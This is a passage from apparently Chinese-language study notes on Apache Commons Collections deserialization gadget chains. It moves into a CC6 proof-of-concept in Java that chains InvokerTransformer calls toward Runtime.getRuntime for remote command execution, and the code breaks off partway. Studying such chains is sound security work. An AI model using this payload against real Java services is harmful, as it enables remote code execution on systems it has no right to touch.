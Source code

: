 可以看到获取了val成员的值赋值给了valObj,这里我们让val=TiedMapEntry对象即可

## 流程图

![image-20210714105646430](CC链学习-中/image-20210714105646430.png)

# CC6

## 测试环境

- jdk 1.7
- Commons Collections 3.1

## POC

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CC61 {
    public static Object generatePayload() throws Exception {
        Transformer fakeTransformerransformer = new ChainedTransformer(new Transformer[]{});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[]{}}),
```
